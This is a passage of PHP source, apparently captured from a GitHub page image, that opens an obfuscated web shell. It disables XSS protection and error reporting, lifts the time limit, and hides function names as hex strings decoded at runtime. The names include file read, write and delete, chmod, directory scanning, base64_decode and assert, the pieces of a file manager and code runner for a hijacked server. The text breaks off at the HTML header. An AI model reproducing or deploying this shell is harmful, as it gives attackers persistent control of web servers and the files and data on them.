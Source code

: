 <?php header("X-XSS-Protection: 0");ob_start();set_time_limit(0);error_reporting(0);ini_set('display_errors', FALSE);
$Array = [
		'7068705f756e616d65',
		'70687076657273696f6e',
		'6368646972',
		'676574637764',
		'707265675f73706c6974',
		'636f7079',
		'66696c655f6765745f636f6e74656e7473',
		'6261736536345f6465636f6465',
		'69735f646972',
		'6f625f656e645f636c65616e28293b',
		'756e6c696e6b',
		'6d6b646972',
		'63686d6f64',
		'7363616e646972',
		'7374725f7265706c616365',
		'68746d6c7370656369616c6368617273',
		'7661725f64756d70',
		'666f70656e',
		'667772697465',
		'66636c6f7365',
		'64617465',
		'66696c656d74696d65',
		'737562737472',
		'737072696e7466',
		'66696c657065726d73',
		'746f756368',
		'66696c655f657869737473',
		'72656e616d65',
		'69735f6172726179',
		'69735f6f626a656374',
		'737472706f73',
		'69735f7772697461626c65',
		'69735f7265616461626c65',
		'737472746f74696d65',
		'66696c6573697a65',
		'726d646972',
		'6f625f6765745f636c65616e',
		'7265616466696c65',
		'617373657274',
];
$___ = count($Array);
for($i=0;$i<$___;$i++) {
	$GNJ[] = uhex($Array[$i]);
}
?>
<!DOCTYPE html>
	<html dir="auto" lang="en-US">
